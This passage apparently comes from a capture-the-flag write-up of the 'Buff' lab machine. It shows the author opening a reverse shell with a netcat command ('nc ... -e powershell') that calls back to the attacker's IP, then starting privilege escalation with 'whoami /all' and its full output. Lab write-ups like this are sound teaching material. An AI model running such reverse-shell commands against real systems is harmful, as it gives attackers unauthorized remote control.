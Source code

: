 Before starting the privesc, I'd like to have a better shell so I just uploaded netcat to the `\tmp` directory and then ran it to access my local machine on port 2222. 

{% highlight sh %}
nc 10.10.14.10 2222 -e powershell
{% endhighlight %}

## Privileges Escalation - Root

The first thing, I always do is checking my actual privileges:

{% highlight sh %}
whoami /all
{% endhighlight %}

{% highlight text %}
USER INFORMATION
----------------

User Name  SID                                           
========== ==============================================
buff\shaun S-1-5-21-2277156429-3381729605-2640630771-1001


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                     Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

{% endhighlight %}
